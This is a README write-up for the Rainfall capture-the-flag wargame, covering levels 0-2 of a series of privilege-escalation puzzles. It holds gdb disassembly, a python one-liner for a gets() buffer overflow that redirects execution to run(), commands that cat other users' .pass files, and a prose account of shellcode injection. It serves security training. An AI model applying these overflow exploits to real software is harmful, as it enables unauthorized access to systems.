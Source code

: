 # Rainfall

---

## Introduction

 This is the continuation of snow-crash...
 Each level presents a unique puzzle or exploit that you must solve to find a hidden flag and move on to the next challenge
 Whether you are a beginner or an experienced hacker, these exercises will test your problem-solving abilities and expand your knowledge in various aspects of cyber security.

|<h1>Cyber Security</h1>|
|-|
| <img width=500px src=https://www.asylas.com/asylas/security-memes-our-year-end-humor-break/> |

---

## ![Disassemble the memory](https://img.shields.io/badge/Level-0-blue) Disassemble the memory

![Disassemble the memory](https://img.shields.io/badge/Disassemble%20the%20memory-ASM-blue?style=for-the-badge&logo=lock)

**Description:** In this level you have to dissasamble the memory where you will find that there is an execution which will allow you to see the password for the next level if the `cmp` is meet.

**Steps:**
1. **Execute the debugger**
   `gdb level0`
   `disas main`
   `0x08048ed4 <+20>:   call   0x8049710 <atoi>`
   `>0x08048ed9 <+25>:  cmp    $0x1a7,%eax`
2. **Convert the number to see what you need to compare == true**
   `echo $((16#1a7)) // 423`
3. Execute with the answer
   `./level0 423`
4. Show the password
   `whoami // level1`
   `cat /home/user/level1/.pass`
   `exit`


You will realize the last step (4.) it's repeated a lot throughout the whole project...

---

## ![Buffer Overflow `gets()`](https://img.shields.io/badge/Level-1-green) Buffer Overflow `gets()`

![Buffer Overflow `gets()`](https://img.shields.io/badge/Buffer%20Overflow%20gets()-clib-blue?style=for-the-badge&logo=lock)

**Description:** After looking at the assembler code we can identify a buffer overflow vulnerability on the unsafe use of the `gets()` function which can allow us to call the function `run()` by overflowing the address of the get's destiny and thus affecting the stack frame call (putting the address of the function run to be executed after the `gets()` call)

**Steps:**
1. **Execute the debugger**
   `i func // see the run function [0x08048444]`
   `disas main`
   `0x08048490 <+16>:   call   0x8048340 <gets@plt> // see the address of target 0x8048340`
2. **Calculate how many bytes between the address of target and run function**
   `echo $((0x08048490 - 0x08048444)) // 76 bytes`
3. **Test the hypotesis**
   `(python -c 'print("A" * 75)' | ./level1 // Nothing but input is not waiting, EOI received, must use the trick with cat -`
   `(python -c 'print("A" * 75)'; cat -) | ./level1 // Nothing`
   `(python -c 'print("A" * 76)'; cat -) | ./level1 // Illegal instruction (core dumped)`
   `(python -c 'print("A" * 77)'; cat -) | ./level1 // Illegal instruction (core dumped)`
   `(python -c 'print("A" * 78)'; cat -) | ./level1 // Segmentation fault (core dumped)`
4. Get address of run
   `objdump -d ./level1 | grep run // 08048444 <run>:`
5. Setup the exploit
   `(python -c 'print("A" * 76 + "\x44\x84\x04\x08")'; cat -) | ./level1`
6. Show the password
   `whoami // level1`
   `cat /home/user/level2/.pass`
   `exit`

---

## ![Shell Script exploit](https://img.shields.io/badge/Level-2-yellow) Shell Script exploit

Founded a buffer overflow vulnerability where we can inject a shell code which is going to execute `/bin/sh` to get access to the user.

The exploit is founded after careful investigation by looking at the binary assembly code. 
We detect the function gets, which is used to populate the pointer to the variable which has a memory limit of X, then we can overflow this address to reach eip and point to the address where we store the shell-script... Simple right!?

---
<!--

## ![Name](https://img.shields.io/badge/Level-3-orange) Name

---

## ![Name](https://img.shields.io/badge/Level-4-red) Name

---

## ![Name](https://img.shields.io/badge/Level-5-purple) Name

---

## ![Name](https://img.shields.io/badge/Level-6-pink) Name

---

## ![Name](https://img.shields.io/badge/Level-7-lightblue) Name

---

## ![Name](https://img.shields.io/badge/Level-8-teal) Name

---

## ![Name](https://img.shields.io/badge/Level-9-cyan) Name
-->

## Conclusion

Each level provided a unique opportunity to apply and expand our skills in cyber security.


---
